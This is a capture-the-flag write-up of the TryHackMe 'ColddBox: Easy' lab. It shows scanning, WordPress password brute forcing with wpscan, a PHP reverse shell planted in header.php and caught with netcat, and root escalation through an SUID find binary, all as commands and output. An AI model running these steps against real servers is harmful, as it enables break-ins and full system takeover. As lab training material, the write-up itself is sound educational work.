 ```yaml
---
title: "TryHackMe - ColddBox: Easy"
categories:
  - Writeup
tags:
  - escalation
  - privesc
  - exploit
  - writeup
  - tryhackme
  - hacking
---
```

An easy level machine with multiple ways to escalate privileges.

## Scanning
- Check if the machine is up.
```bash
    $ ping 10.10.203.8                                                                     
    PING 10.10.203.8 (10.10.203.8) 56(84) bytes of data.
    64 bytes from 10.10.203.8: icmp_seq=1 ttl=63 time=200 ms
    64 bytes from 10.10.203.8: icmp_seq=2 ttl=63 time=199 ms
    ```

- Nmap time! With aggressive mode because why not.
    ```bash
    $ sudo nmap -A -oN resultNmap 10.10.203.8                                                   130 ⨯
    [sudo] password for kali: 
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-09 07:25 EST
    Nmap scan report for 10.10.203.8
    Host is up (0.20s latency).
    Not shown: 999 closed ports
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-generator: WordPress 4.1.31
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: ColddBox | One more machine
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.91%E=4%D=1/9%OT=80%CT=1%CU=44313%PV=Y%DS=2%DC=T%G=Y%TM=5FF9A0E5
    OS:%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=8)OPS(
    OS:O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST11
    OS:NW7%O6=M505ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(
    OS:R=Y%DF=Y%T=40%W=6903%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
    OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
    OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
    OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
    OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
    OS:S)

    Network Distance: 2 hops

    TRACEROUTE (using port 23/tcp)
    HOP RTT       ADDRESS
    1   199.31 ms 10.11.0.1
    2   199.37 ms 10.10.203.8

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 57.74 seconds
    ```

    Port 80 open with WordPress inside.

## Recon
- Open the website at port 80.
    <center><a href="/assets/images/tryhackme/colddbox-easy/1.png"><img src="/assets/images/tryhackme/colddbox-easy/1.png"></a></center>

- WordPress! Let's search for some directory first.
- Run `gobuster` to find directories, maybe interesting to us.
    ```bash
    $ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.203.8 -t5
    ===============================================================
    Gobuster v3.0.1
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
    ===============================================================
    [+] Url:            http://10.10.203.8
    [+] Threads:        5
    [+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    [+] Status codes:   200,204,301,302,307,401,403
    [+] User Agent:     gobuster/3.0.1
    [+] Timeout:        10s
    ===============================================================
    2021/01/09 07:49:55 Starting gobuster
    ===============================================================
    /wp-content (Status: 301)
    /wp-includes (Status: 301)
    /wp-admin (Status: 301)
    /hidden (Status: 301)
    ```

- There is `/hidden/` directory. Let's see what is it.
    <center><a href="/assets/images/tryhackme/colddbox-easy/2.png"><img src="/assets/images/tryhackme/colddbox-easy/2.png"></a></center>

## Initial Foothold

- There is 3 users there at the `/hidden/` page, which is `c0ldd`, `hugo`, and `philip. We could bruteforce the `wp-login` page since it's WordPress.
- Bruteforce the users password using `wp2scan`.
    ```bash
    $  wpscan --url 10.10.203.8 --usernames hugo,c0ldd,philip --passwords /usr/share/wordlists/rockyou.txt  

    _______________________________________________________________
            __          _______   _____
            \ \        / /  __ \ / ____|
            \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
            \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
                \  /\  /  | |     ____) | (__| (_| | | | |
                \/  \/   |_|    |_____/ \___|\__,_|_| |_|

            WordPress Security Scanner by the WPScan Team
                            Version 3.8.10
        Sponsored by Automattic - https://automattic.com/
        @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
    _______________________________________________________________

    [+] URL: http://10.10.203.8/ [10.10.203.8]
    [+] Started: Sat Jan  9 08:42:19 2021

    Interesting Finding(s):
    ...
    [+] Enumerating Config Backups (via Passive and Aggressive Methods)
    Checking Config Backups - Time: 00:00:01 <=======================> (22 / 22) 100.00% Time: 00:00:01

    [i] No Config Backups Found.

    [+] Performing password attack on Wp Login against 3 user/s
    [SUCCESS] - c0ldd / 9876543210 
    ...

    ```

- We got c0ldd's password, let's login.
    <center><a href="/assets/images/tryhackme/colddbox-easy/3.png"><img src="/assets/images/tryhackme/colddbox-easy/3.png"></a></center>

- We got the Admin's Dashboard. Let's upload our [reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) by changing the source code of `header.php` file and update the file once we done it.
    <center><a href="/assets/images/tryhackme/colddbox-easy/4.png"><img src="/assets/images/tryhackme/colddbox-easy/4.png"></a></center>

    **Don't Forget** to change the `$ip` and `$port` of the reverse shell to your `tun0` IP Address and your netcat listen port.
    {: .notice--info}

- Run `netcat` to listen the port we declared on the reverse shell.
    ```bash
    $ nc -lnvp 4444                   
    listening on [any] 4444 ...
    ```

- Open the machine's IP at port 80 again and we got our reverse shell working!
    ```bash
    $ nc -lnvp 4444                   
    listening on [any] 4444 ...
    connect to [10.11.25.205] from (UNKNOWN) [10.10.203.8] 58816
    Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
    15:31:59 up  2:19,  0 users,  load average: 0.00, 0.00, 0.00
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    $ whoami
    www-data
    ```

## Escalation
- Search for existing SUID.
    ```bash
    $ find / -uid 0 -perm -4000 -type f 2>/dev/null
    /bin/fusermount
    /bin/umount
    /bin/mount
    /usr/bin/chsh
    /usr/bin/gpasswd
    /usr/bin/pkexec
    /usr/bin/find
    /usr/bin/sudo
    /usr/bin/newgidmap
    /usr/bin/newgrp
    /usr/bin/newuidmap
    /usr/bin/chfn
    /usr/bin/passwd
    /usr/lib/openssh/ssh-keysign
    /usr/lib/snapd/snap-confine
    /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/policykit-1/polkit-agent-helper-1
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    ```

- We can use payload from [gtfobins](https://gtfobins.github.io/gtfobins/find/#suid) to escalate our privilege using SUID at `/usr/bin/find`.
    ```bash
    $ find . -exec /bin/sh -p \; -quit
    $ whoami
    root
    ```

- user.txt:
    ```bash
    $ cd /home/c0ldd
    $ ls
    user.txt
    $ cat user.txt
    --REDACTED--
    ```
- root.txt:
    ```bash
    $ cd /root
    $ ls
    root.txt
    $ cat root.txt
    --REDACTED--
    ```